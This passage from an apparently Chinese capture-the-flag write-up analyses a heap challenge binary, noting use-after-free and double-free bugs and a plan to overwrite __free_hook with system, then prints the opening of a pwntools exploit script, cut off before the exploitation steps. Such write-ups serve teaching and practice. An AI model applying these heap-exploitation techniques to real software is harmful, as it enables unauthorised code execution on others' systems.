 全保护都被开启了

### <a class="reference-link" name="%E6%BC%8F%E6%B4%9E%E5%88%86%E6%9E%90"></a>漏洞分析

分析delete函数可以很明显的看出存在UAF和Double Free漏洞

[![](./img/199540/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://img.lhyerror404.cn/error404/2020-02-23-061639.png)

那么当我们释放一个chunk后，再申请的大小为0x20的chunk事实上都会被存储在可写区域，那么可以直接篡改Note的note指针，使之指向`__free_hook`，然后将其改写为`system`即可完成攻击。

### <a class="reference-link" name="Final%20Exploit"></a>Final Exploit

```
from pwn import *
import sys
context.log_level='debug'
context.arch='amd64'
# context.arch='i386'

doucument=ELF('./doucument', checksec = False)

if context.arch == 'amd64':
    libc=ELF("/lib/x86_64-linux-gnu/libc.so.6", checksec = False)
elif context.arch == 'i386':
    try:
        libc=ELF("/lib/i386-linux-gnu/libc.so.6", checksec = False)
    except:
        libc=ELF("/lib32/libc.so.6", checksec = False)

def get_sh(other_libc = null):
    global libc
    if args['REMOTE']:
        if other_libc is not null:
            libc = ELF("./", checksec = False)
        return remote(sys.argv[1], sys.argv[2])
    else:
        return process("./doucument")

def get_address(sh,info=null,start_string=null,end_string=null,offset=null,int_mode=False):
    sh.recvuntil(start_string)
    if int_mode :
        return_address=int(sh.recvuntil(end_string).strip(end_string),16)
    elif context.arch == 'amd64':
        return_address=u64(sh.recvuntil(end_string).strip(end_string).ljust(8,'x00'))
    else:
        return_address=u32(sh.recvuntil(end_string).strip(end_string).ljust(4,'x00'))
    log.success(info+str(hex(return_address+offset)))
    return return_address+offset

def get_flag(sh):
    sh.sendline('cat /flag')
    return sh.recvrepeat(0.3)

def get_gdb(sh,stop=False):
    gdb.attach(sh)
    if stop :
        raw_input()

def creat(sh,name,sex,information):
    sh.recvuntil('Give me your choice : ')
    sh.sendline('1')
```